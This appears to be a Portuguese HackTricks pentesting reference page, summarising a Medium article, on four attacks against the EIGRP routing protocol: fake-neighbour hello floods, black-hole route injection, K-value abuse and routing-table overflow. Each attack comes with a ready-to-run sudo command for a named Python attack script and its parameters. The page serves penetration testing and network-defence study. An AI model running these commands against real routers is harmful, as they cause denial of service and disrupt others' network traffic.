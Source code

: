 # EIGRP Attacks

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

**Este é um resumo dos ataques expostos em** [**https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9**](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9). Confira para mais informações.

## **Ataque de Vizinhos Falsos EIGRP**

- **Objetivo**: Sobrecarregar as CPUs dos roteadores inundando-os com pacotes hello EIGRP, potencialmente levando a um ataque de Negação de Serviço (DoS).
- **Ferramenta**: Script **helloflooding.py**.
- **Execução**:
%%%bash
~$ sudo python3 helloflooding.py --interface eth0 --as 1 --subnet 10.10.100.0/24
%%%
- **Parâmetros**:
- `--interface`: Especifica a interface de rede, por exemplo, `eth0`.
- `--as`: Define o número do sistema autônomo EIGRP, por exemplo, `1`.
- `--subnet`: Define a localização da sub-rede, por exemplo, `10.10.100.0/24`.

## **Ataque de Buraco Negro EIGRP**

- **Objetivo**: Interromper o fluxo de tráfego da rede injetando uma rota falsa, levando a um buraco negro onde o tráfego é direcionado a um destino inexistente.
- **Ferramenta**: Script **routeinject.py**.
- **Execução**:
%%%bash
~$ sudo python3 routeinject.py --interface eth0 --as 1 --src 10.10.100.50 --dst 172.16.100.140 --prefix 32
%%%
- **Parâmetros**:
- `--interface`: Especifica a interface do sistema do atacante.
- `--as`: Define o número AS EIGRP.
- `--src`: Define o endereço IP do atacante.
- `--dst`: Define o IP da sub-rede alvo.
- `--prefix`: Define a máscara do IP da sub-rede alvo.

## **Ataque de Abuso de Valores K**

- **Objetivo**: Criar interrupções contínuas e reconexões dentro do domínio EIGRP injetando valores K alterados, resultando efetivamente em um ataque DoS.
- **Ferramenta**: Script **relationshipnightmare.py**.
- **Execução**:
%%%bash
~$ sudo python3 relationshipnightmare.py --interface eth0 --as 1 --src 10.10.100.100
%%%
- **Parâmetros**:
- `--interface`: Especifica a interface de rede.
- `--as`: Define o número AS EIGRP.
- `--src`: Define o endereço IP de um roteador legítimo.

## **Ataque de Transbordo da Tabela de Roteamento**

- **Objetivo**: Sobrecarregar a CPU e a RAM do roteador inundando a tabela de roteamento com inúmeras rotas falsas.
- **Ferramenta**: Script **routingtableoverflow.py**.
- **Execução**:
%%%bash
sudo python3 routingtableoverflow.py --interface eth0 --as 1 --src 10.10.100.50
%%%
- **Parâmetros**:
- `--interface`: Especifica a interface de rede.
- `--as`: Define o número AS EIGRP.
- `--src`: Define o endereço IP do atacante.


{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}
